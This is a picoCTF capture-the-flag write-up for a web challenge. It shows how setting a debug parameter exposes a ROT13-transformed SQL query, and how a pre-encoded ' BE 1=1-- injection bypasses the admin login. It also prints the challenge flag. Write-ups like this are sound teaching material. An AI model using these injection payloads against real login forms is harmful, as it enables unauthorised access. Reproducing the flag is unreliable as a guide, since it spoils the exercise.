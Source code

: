 # Irish-Mame-Repo 3 - 400 points
Web_Exploitation

## Description:
> There is a secure website running at https://2019shell1.picoctf.com/problem/21874/ (link) or http://2019shell1.picoctf.com:21874. Try to see if you can login as admin!

## Hint:
> Seems like the password is encrypted.

## Solving:

The admin log in page doesn't seem to like a simple SQLi so I tried the password 'admin123' and looked at the network monitor. In the request body we get ```password=admin123&debug=0```. If we change debug to ```1``` we can see what is happening:

```php
password: admin123
SQL query: SELECT * FROM admin where password = 'nqzva123'
```
The server is substituting letters so if we try again with a ```' OR 1=1--'``` SQLi we can see what the subsitution is doing by changing the parameters to resend as ```password=%27+OR+1%3D1--&debug=1``` in the network monitor, the response:
```php
password: ' OR 1=1--
SQL query: SELECT * FROM admin where password = '' BE 1=1--'
```
The ```OR``` is substituted by ```BE```. So if we input a SQLi as ```' BE 1=1--``` we should be able to bypass the password field.

>**Logged in!**
>
>**Your flag is: picoCTF{3v3n_m0r3_SQL_d78e3333}**


### Flag: 

```
picoCTF{3v3n_m0r3_SQL_d78e3333}
```

